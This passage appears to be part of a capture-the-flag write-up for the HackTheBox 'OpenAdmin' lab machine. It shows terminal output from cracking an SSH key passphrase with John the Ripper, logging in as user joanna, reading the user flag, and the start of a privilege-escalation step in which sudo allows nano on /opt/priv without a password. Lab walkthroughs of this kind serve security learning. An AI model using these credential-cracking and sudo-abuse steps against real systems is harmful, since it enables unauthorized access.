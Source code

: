 ```bash
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (ssh-key.txt)
1g 0:00:00:06 DONE (2020-04-07 18:51) 0.1652g/s 2370Kp/s 2370Kc/s 2370KC/sa6_123..*7¡Vamos!
Session completed

dumbland () hgfs/hackthebox/openadmin :: ssh -i ssh-key.txt joanna@10.10.10.171                                                                                                       127 ↵
Enter passphrase for key 'ssh-key.txt':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Apr  7 22:55:34 UTC 2020

  System load:  0.0               Processes:             401
  Usage of /:   50.0% of 7.81GB   Users logged in:       0
  Memory usage: 40%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Apr  7 05:59:31 2020 from 10.10.14.36
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f

```


***


# Priv Esc


```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

```
